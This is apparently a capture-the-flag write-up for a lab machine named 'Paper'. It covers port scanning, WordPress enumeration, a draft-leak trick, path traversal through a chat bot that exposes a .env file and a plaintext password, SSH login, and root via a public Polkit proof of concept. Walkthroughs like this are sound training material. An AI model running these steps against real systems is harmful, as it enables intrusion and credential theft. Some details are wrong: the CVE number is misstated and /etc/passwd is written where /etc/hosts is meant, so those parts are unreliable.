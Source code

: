 ![image](PWND/Paper.png)

# Nmap 

nmap -sC -sV -oA nmap/paper -v -e tun0 10.10.11.143 

```
Nmap scan report for 10.10.11.143 
Host is up (0.18s latency). 
Not shown: 997 closed tcp ports (reset) 
PORT    STATE SERVICE  VERSION 
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0) 
| ssh-hostkey:  
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA) 
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA) 
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519) 
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
) 
| http-methods:  
|   Supported Methods: HEAD GET POST OPTIONS TRACE 
|_  Potentially risky methods: TRACE 
|_http-title: HTTP Server Test Page powered by CentOS 
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28 
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9 
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
) 
| http-methods:  
|   Supported Methods: HEAD GET POST OPTIONS TRACE 
|_  Potentially risky methods: TRACE 
|_http-title: HTTP Server Test Page powered by CentOS 
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28 
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/
countryName=US 
| Subject Alternative Name: DNS:localhost.localdomain 
| Issuer: commonName=localhost.localdomain/organizationName=Unspecified/countryName
```

## Enum 

#Website after adding hosts /etc/hosts

![image](https://user-images.githubusercontent.com/129129988/228427705-03a72a80-4a2b-47da-b725-f9ce0deffd8f.png)

localhost.localdomain

![image](https://user-images.githubusercontent.com/129129988/228427720-d33b028e-dc63-4a63-bb4b-7b9f85f34a33.png)

using burpsuit on the website on port 80 

we get 

![image](https://user-images.githubusercontent.com/129129988/228427741-cc2a6d57-be78-48d4-8935-79d2478f8f5c.png)

#add office.paper to /etc/hosts

![image](https://user-images.githubusercontent.com/129129988/228427758-739aa3cc-a22d-4062-a5ec-c84c39d54f3b.png)

![image](https://user-images.githubusercontent.com/129129988/228427789-927b4401-2342-43a8-b7ac-6ed7bd0a2dd1.png)

Looks like wordpress we try to login

![image](https://user-images.githubusercontent.com/129129988/228427808-9b80bb37-5c2a-4e54-8079-78bed59413bb.png)

# Usernames_wordpress
wpscan --url http://office.paper -e u1-100

![image](https://user-images.githubusercontent.com/129129988/228427943-34057bc7-418a-4c05-8bfc-ecc27a2d3468.png)

Wordpress 5.2.3
https://www.acunetix.com/vulnerabilities/web/wordpress-5-2-x-multiple-vulnerabilities-5-2-5-2-3/

![image](https://user-images.githubusercontent.com/129129988/228427984-7a893052-f70d-426d-90de-88cc3a61691f.png)

![image](https://user-images.githubusercontent.com/129129988/228428011-a9e83eb6-4f89-4565-a853-cdee24f5349a.png)

So by adding ?static=1

we get this result

![image](https://user-images.githubusercontent.com/129129988/228428041-656c5edf-2f97-43ca-81a7-eb28c7091cee.png)


# Secret Registration URL of new Employee chat system
http://chat.office.paper/register/8qozr226AhkCHZdyY
<Use this Link so set up an account after you add chat.office.paper to /etc/hosts>


# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.



#add chat.office.paper to /etc/passwd

![image](https://user-images.githubusercontent.com/129129988/228428088-30cbfa69-2da5-4cbd-9230-e6ed2b298a81.png)

![image](https://user-images.githubusercontent.com/129129988/228428118-907d6649-d4a4-4676-9344-c773dd76cd07.png)


#General 

![image](https://user-images.githubusercontent.com/129129988/228428135-cec65cb4-0a43-402c-9bcc-49ae09037ec3.png)


#Get files from Bot
recyclops file <file>

#Get list from Bot 
recyclops list<file> 

Lets escape from <sale/>

list ../

 Fetching the directory listing of ../hubot
total 2292
drwx------ 8 dwight dwight 4096 Sep 16 07:57 .
drwx------ 11 dwight dwight 294 Feb 13 17:43 ..
-rw-r--r-- 1 dwight dwight 0 Jul 3 2021 \
srwxr-xr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8000
srwxrwxr-x 1 dwight dwight 0 Jul 3 2021 127.0.0.1:8080
drwx--x--x 2 dwight dwight 36 Sep 16 07:34 bin
-rw-r--r-- 1 dwight dwight 258 Sep 16 07:57 .env
-rwxr-xr-x 1 dwight dwight 2 Jul 3 2021 external-scripts.json
drwx------ 8 dwight dwight 163 Jul 3 2021 .git
-rw-r--r-- 1 dwight dwight 917 Jul 3 2021 .gitignore
-rw-r--r-- 1 dwight dwight 1387093 Feb 13 18:12 .hubot.log
-rwxr-xr-x 1 dwight dwight 1068 Jul 3 2021 LICENSE
drwxr-xr-x 89 dwight dwight 4096 Jul 3 2021 node_modules
drwx--x--x 115 dwight dwight 4096 Jul 3 2021 node_modules_bak
-rwxr-xr-x 1 dwight dwight 1062 Sep 16 07:34 package.json
-rwxr-xr-x 1 dwight dwight 972 Sep 16 07:26 package.json.bak
-rwxr-xr-x 1 dwight dwight 30382 Jul 3 2021 package-lock.json
-rwxr-xr-x 1 dwight dwight 14 Jul 3 2021 Procfile
-rwxr-xr-x 1 dwight dwight 5044 Jul 3 2021 README.md
drwx--x--x 2 dwight dwight 193 Jan 13 10:56 scripts
-rwxr-xr-x 1 dwight dwight 100 Jul 3 2021 start_bot.sh
drwx------ 2 dwight dwight 25 Jul 3 2021 .vscode
-rwxr-xr-x 1 dwight dwight 29951 Jul 3 2021 yarn.lock

![image](https://user-images.githubusercontent.com/129129988/228428159-0d45fd29-0db5-49f7-be71-bc1996eb64f8.png)


export ROCKETCHAT_PASSWORD=Queenofblad3s!23

#lets try to Login with SSH

![image](https://user-images.githubusercontent.com/129129988/228428176-f483b229-5824-45a7-be5f-013e74d8dac3.png)


cd /dev/shm

download linpeas.sh
https://github.com/carlospolop/PEASS-ng/releases/tag/20220213

send it over to the machine 
![image](https://user-images.githubusercontent.com/129129988/228428194-8ceb550e-307b-49ec-b2b9-4ce249ea9a7d.png)


next make the script excecutable 

chmod +x linpeas.sh and now run linpeas.
./linpeas.sh

 # PrivEs > Root
  
#linpeas results

![image](https://user-images.githubusercontent.com/129129988/228428332-b716d0e9-9f10-4541-93e1-581fa5c09243.png)

linpeas shows that sudo version is vuln. 

https://pythonrepo.com/repo/Almorabea-Polkit-exploit
I found this article it was a poc 
here is the github link for the poc. 
https://github.com/Almorabea/Polkit-exploit

now send CVE-2021-3569.py to the machine and run exploit. 

  ![image](https://user-images.githubusercontent.com/129129988/228428366-3332e766-3c3a-433a-89c4-60ab3f8041f7.png)

python3 -m http.server 8998
  
We  are Root
  ![image](https://user-images.githubusercontent.com/129129988/228428394-f3eedbda-6b99-4b89-98bc-45044bad9b76.png)
